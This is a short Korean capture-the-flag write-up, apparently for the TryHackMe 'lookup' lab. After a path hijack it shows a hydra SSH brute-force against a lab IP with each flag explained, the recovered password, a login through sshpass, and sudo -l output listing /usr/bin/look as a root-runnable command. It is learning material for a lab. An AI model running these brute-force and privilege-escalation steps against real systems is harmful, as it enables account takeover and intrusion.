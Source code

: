 # id

38:/tmp$ id
uid=1000(think) gid=1000(think) groups=1000(think)

path hijacking 으로 인해 실제 사용자는 www-data 이지만 id 입력 시 위처럼 나옴
위에서 얻는 데이터를 바탕으로 SSH 브루트포스 시도해보기

# hydra -l think -P password.txt ssh://10.10.67.138 --t 40 -v

-l think : 로그인할 사용자 이름
-P password.txt : 비밀번호 목록 파일
ssh://lookup.thm : SSH 프로토콜을 사용하여 lookup.thm 서버에 접속
--t 40 : 동시 실행할 스레드 수 (여기서는 40개 스레드)
-v : 자세한 출력 모드

# [22][ssh] host: 10.10.67.138 login: think password: josemario.AKA(think)

found password

# ssh think@10.10.67.138

# josemario.AKA(think)

# apt install sshpass

# sshpass -p 'josemario.AKA(think)' ssh think@10.10.67.138

# sudo -l

sudo 사용 가능한 명령어 목록 확인
/usr/bin/look 는 sudo 명령어를 쓰면 누구나 사용이 가능함

[sudo] password for think:
Matching Defaults entries for think on ip-10-10-67-138:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on ip-10-10-67-138:
(ALL) /usr/bin/look
think@ip-10-10-67-138:~$ ls
user.txt

